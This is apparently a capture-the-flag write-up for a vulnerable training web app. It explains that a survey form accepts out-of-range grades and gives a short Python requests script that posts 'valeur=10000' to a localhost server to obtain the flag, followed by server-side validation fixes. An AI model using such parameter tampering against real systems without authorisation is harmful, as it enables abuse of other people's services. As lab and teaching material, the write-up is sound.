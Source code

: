 # How

In the survey page, there is a form in which we can submit our opinion on different subjects, by grading them from 1 to 10.

The form does a POST request to `#` (the same page), with the parameter `valeur` set to the grade we gave.

But, we can specify any value for `valeur`, being it a string, or a number `<1` or `>10`.

Passing a grade that is superior to 10 will give us the flag.

You can do that by editing the webpage's DOM via your browser's DevTools, or doing it using Python :

```py
import requests

params = {
    'page': 'survey',
}

data = {
    'sujet': '3',
    'valeur': '10000',
}

response = requests.post('http://localhost:4242/', params=params, data=data)
print(response.text)
```

# Fix

- Never trust a user's input
- Check form data on the server side too
